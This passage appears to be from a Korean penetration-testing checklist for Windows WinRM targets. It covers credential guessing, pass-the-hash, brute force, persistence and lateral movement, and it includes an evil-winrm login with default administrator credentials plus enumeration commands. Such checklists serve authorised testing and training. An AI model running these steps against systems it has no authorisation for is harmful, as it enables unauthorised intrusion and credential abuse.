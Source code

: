 ### 🔐 Phase 2: 인증 시도 (10분)

- [ ] **기본 자격증명 시도** (administrator, admin)
- [ ] **다른 서비스에서 수집한 크레덴셜 시도**
- [ ] **도메인 환경 크레덴셜 시도**
- [ ] **Pass-the-Hash 시도** (해시 확보시)
- [ ] **브루트포스 공격 시작** (필요시)

### 💻 Phase 3: 쉘 획득 및 권한 확인 (7분)

- [ ] **PowerShell 원격 쉘 획득**
- [ ] **현재 사용자 및 권한 확인** `whoami /all`
- [ ] **시스템 정보 수집** `systeminfo`
- [ ] **네트워크 정보 확인** `ipconfig /all`
- [ ] **다른 사용자 및 그룹 확인**

### 🚀 Phase 4: 추가 공격 및 지속성 (3분)

- [ ] **권한 상승 가능성 확인**
- [ ] **파일 업로드/다운로드 테스트**
- [ ] **지속적 접근 방법 설정**
- [ ] **다른 시스템으로 이동 준비**

---

## 🎯 상황별 대응

### 🔓 기본 자격증명 성공시

```bash
# evil-winrm으로 PowerShell 쉘 획득
evil-winrm -i {IP} -u administrator -p password

# 연결 성공 후 즉시 실행할 명령들:
whoami
whoami /all
whoami /priv
hostname
systeminfo

# 네트워크 정보
ipconfig /all
netstat -an
arp -a

# 사용자 및 그룹 정보
net user
net localgroup administrators
net group /domain  # 도메인 환경인 경우

# 실행 중인 프로세스 및 서비스
tasklist
Get-Process
Get-Service
```
